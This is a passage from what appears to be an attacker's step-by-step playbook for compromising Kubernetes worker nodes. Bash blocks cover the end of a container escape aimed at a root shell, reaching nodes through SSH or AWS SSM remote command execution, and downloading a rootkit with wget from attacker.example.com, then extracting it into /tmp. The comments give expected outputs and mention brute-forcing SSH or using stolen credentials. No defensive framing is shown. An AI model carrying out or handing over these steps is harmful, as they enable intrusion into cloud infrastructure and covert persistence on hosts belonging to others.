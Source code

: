 ```bash

# Expected output: Root shell on the host node.

# Explanation:  This is one example of a container escape technique.  Successful container escape grants the attacker root access to the underlying Kubernetes node.
# Alternative:  Explore Docker API socket escapes or kernel vulnerabilities.
```

**Step 6: (If no container escape is achieved) Gain direct access to the node via SSH or cloud provider API.**

```bash
# Attempt to connect to the node via SSH.  Requires credentials.
ssh user@worker-node-01.example.com

# Attempt to use cloud provider APIs (e.g., AWS, Azure, GCP) to access the node.  Requires appropriate IAM permissions.
# Example: AWS SSM (requires proper IAM role for the attacker's identity)
aws ssm send-command --instance-ids i-xxxxxxxxxxxxxxxxx --document-name AWS-RunShellScript --parameters "commands=[\"whoami\"]" --output text --query "Command.CommandId"
aws ssm get-command-invocation --command-id <command_id> --instance-id i-xxxxxxxxxxxxxxxxx --output text --query "StandardOutputContent"

# Explanation: If a container escape is not possible, the attacker will attempt to gain direct access to the node through other means.
# The attacker might attempt to brute force SSH credentials or use stolen credentials.
# The attacker may also leverage cloud provider APIs if they have sufficient permissions.
```

### Phase 2: Exploitation - Rootkit Installation

**Step 7: Download the Rootkit**

```bash
# Download the rootkit components from a remote server.
# This example uses 'wget', but other tools like 'curl' can be used.
wget http://attacker.example.com/rootkit.tar.gz -O /tmp/rootkit.tar.gz

# Expected Output: Download progress and confirmation of successful download.

# Explanation: This step transfers the rootkit files to the compromised node.  The rootkit can consist of various binaries, libraries, and configuration files.
# Variation: The rootkit could be downloaded directly from a container image registry or uploaded through a file upload vulnerability in a web application running on the node.
```

**Step 8: Extract the Rootkit**

```bash
# Extract the downloaded rootkit archive.
tar -xzvf /tmp/rootkit.tar.gz -C /tmp

# Expected Output: Output showing the extracted files and directories.

# Explanation: This step unpacks the rootkit components into a temporary directory.
```

